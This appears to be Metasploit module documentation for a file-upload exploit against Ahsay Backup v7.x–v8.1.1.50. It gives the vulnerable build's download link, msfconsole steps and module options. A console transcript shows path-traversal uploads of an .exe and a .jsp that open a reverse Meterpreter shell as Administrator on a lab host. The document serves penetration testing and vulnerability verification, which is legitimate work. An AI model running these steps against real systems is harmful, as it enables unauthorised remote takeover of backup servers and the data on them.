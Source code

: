 ## Vulnerable Application

  Ahsay Backup v7.x - v8.1.1.50
  Download the vulnerable version: `http://ahsay-dn.ahsay.com/v8/81150/cbs-win.exe`
  Start the application ( I start it manually from `C:\Program Files\AhsayCBS\bin\startup.bat`)

## Verification Steps

  1. Start `msfconsole`
  2. `use exploit/windows/misc/ahsay_fileupload`
  3. enable create trial account `set CREATEACCOUNT true`
  4. set RHOST `set RHOST 172.16.238.175`
  5. set LHOST `set LHOST 172.16.238.235`
  6. run exploit `run`
  7. We should receive a meterpreter shell.

## Options

   CREATEACCOUNT  - Create a Trial account, use this when trial accounts is enabled and you do not have a valid credentials.
   PASSWORD       - Password to Ahsay useraccount, if CREATEACCOUNT is set this password will be used.
   RHOST          - Target address.
   RPORT          - The target port (TCP).
   TARGETURI      - Path to Ahsay installation
   UPLOADPATH     - Path to where the file should be uploaded
   USERNAME       - Username to Ahsay account, if CREATEACCOUNT is set this username will be used.

## Scenarios

### Ahsay 8.1.1.50 on Windows 2003 SP2

  ```
msf exploit(windows/misc/ahsay_fileupload) > set CREATEACCOUNT true
CREATEACCOUNT => true
msf exploit(windows/misc/ahsay_fileupload) > set RHOST 172.16.238.175
RHOST => 172.16.238.175
msf exploit(windows/misc/ahsay_fileupload) > set LHOST 172.16.238.235
LHOST => 172.16.238.235
msf exploit(windows/misc/ahsay_fileupload) > run

[*] Started reverse TCP handler on 172.16.238.235:4444 
[+] Username and password are valid!
[+] No need to create account, already exists!
[*] Uploading payload
[+] Succesfully uploaded ../../webapps/cbs/help/en/lcofxnrzON.exe
[*] Uploading payload
[+] Succesfully uploaded ../../webapps/cbs/help/en/myjnJMFlNi.jsp
[*] Triggering exploit! https://172.16.238.175:443/cbs/help/en/myjnJMFlNi.jsp
[+] Exploit executed!
[*] Sending stage (179779 bytes) to 172.16.238.175
[*] Meterpreter session 1 opened (172.16.238.235:4444 -> 172.16.238.175:1114) at 2019-07-16 14:59:45 +0200
[!] This exploit may require manual cleanup of '../../webapps/cbs/help/en/lcofxnrzON.exe' on the target
[!] This exploit may require manual cleanup of '../../webapps/cbs/help/en/myjnJMFlNi.jsp' on the target

meterpreter > getuid
Server username: AHSAY-123\Administrator
  ```
